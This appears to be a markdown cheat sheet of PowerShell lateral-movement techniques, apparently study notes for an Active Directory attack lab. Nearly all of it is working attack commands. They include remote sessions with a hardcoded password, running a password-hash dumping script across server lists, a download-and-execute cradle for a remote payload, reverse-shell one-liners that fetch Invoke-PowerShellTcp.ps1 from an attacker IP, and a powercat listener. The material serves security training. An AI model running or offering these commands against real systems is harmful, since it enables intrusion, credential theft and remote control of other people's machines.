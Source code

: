 # Lateral Movement
> test

# table of content
1. [test](#test)


## Powershell Remoting
Change user

```powershell
$passwd = ConvertTo-SecureString "SuperS3Cr31PAssw0rd!@l33t" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("user", $passwd)
Enter-PSSession -Credential $creds -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
 ```
If you want to save the session
```powershell
$passwd = ConvertTo-SecureString "SuperS3Cr31PAssw0rd!@l33t" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("user", $passwd)
$sess = New-PSSession -Credential $creds
Enter-PSSession -Credential $creds -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
If you dont need a password
```powershell
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
Dont need password with saved session
```powershell
$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
Enter-PSSession -Session $sess
```

Execution Cradle
```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
```

### Invoke Command

Use below to execute commands or scriptblocks:
```powershell
Invoke-Command –Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)
 ```
Use below to execute scripts from files (some script thet wont work can work in this mode)
```powershell
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```
Use below to execute locally loaded function on the remote machines:
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
```
In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way:
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
```
In below, a function call within the script is used:
```powershell
Invoke-Command -Filepath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```
Use below to execute "Stateful" commands using Invoke-Command:
```powershell
$Sess = New-PSSession –Computername Server1
Invoke-Command –Session $Sess –ScriptBlock {$Proc = GetProcess}
Invoke-Command –Session $Sess –ScriptBlock {$Proc.Name}
```
## Technique (user hunting)
```powershell
Find-LocalAdminAccess -Verbose
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## RCE
```powershell
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1')); Power -Reverse -IPAddress 172.16.100.X -Port 443


powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Power -Reverse -IPAddress 172.16.100.X -Port 443
```
powercat
```powershell
. .\powercat.ps1
powercat -l -v -p 443 -t 100
```
python open file
```bash
python -m SimpleHTTPServer 8080
python2 -m http.server
```